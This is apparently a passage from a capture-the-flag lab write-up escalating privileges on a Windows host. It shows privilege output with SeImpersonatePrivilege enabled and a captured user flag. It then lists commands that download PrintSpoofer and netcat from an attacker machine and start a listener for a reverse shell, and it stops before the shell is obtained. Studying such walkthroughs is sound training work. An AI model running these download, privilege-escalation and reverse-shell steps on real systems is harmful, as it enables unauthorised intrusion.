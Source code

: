 ```powershell
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeMachineAccountPrivilege     Add workstations to domain                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

User flag:
```powershell
type C:\Users\charlotte\Desktop\local.txt
f8884828ef353471648f7cd7e551465f
```

Download PrintSpoofer.exe from kali:
```powershell
iwr -uri http://192.168.45.241/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

Executing an interactive shell fails:
```powershell
.\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[!] CreateProcessAsUser() failed because of a missing privilege, retrying with CreateProcessWithTokenW().
[!] CreateProcessWithTokenW() isn't compatible with option -i
```

Lets try with executing a reverse shell. First we download nc.exe:
```powershell
iwr -uri http://192.168.45.241/nc64.exe -Outfile nc64.exe
```

Start listener:
```bash
nc -vlnp 4444
```
